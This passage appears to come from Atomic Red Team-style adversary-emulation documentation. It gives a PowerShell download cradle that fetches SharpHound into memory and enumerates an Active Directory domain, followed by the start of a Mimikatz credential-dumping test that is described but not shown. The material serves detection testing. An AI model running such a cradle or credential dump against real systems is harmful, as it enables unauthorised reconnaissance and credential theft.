 


<br/>
<br/>

## Atomic Test #3 - Run Bloodhound from Memory using Download Cradle
Upon execution SharpHound will load into memory and execute against a domain. It will set up collection methods, run and then compress and store the data to the temp directory. If system is unable to contact a domain, proper execution will not occur.

Successful execution will produce stdout message stating "SharpHound Enumeration Completed". Upon completion, final output will be a *BloodHound.zip file.

**Supported Platforms:** Windows


**auto_generated_guid:** bf8c1441-4674-4dab-8e4e-39d93d08f9b7






#### Attack Commands: Run with `powershell`! 


```powershell
write-host "Remote download of SharpHound.ps1 into memory, followed by execution of the script" -ForegroundColor Cyan
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1');
Invoke-BloodHound -OutputDirectory $env:Temp
Start-Sleep 5
```

#### Cleanup Commands:
```powershell
Remove-Item $env:Temp\*BloodHound.zip -Force
```





<br/>
<br/>

## Atomic Test #4 - Mimikatz - Cradlecraft PsSendKeys
Run mimikatz via PsSendKeys. Upon execution, automated actions will take place to open file explorer, open notepad and input code, then mimikatz dump info will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** af1800cf-9f9d-4fd1-a709-14b1e6de020d





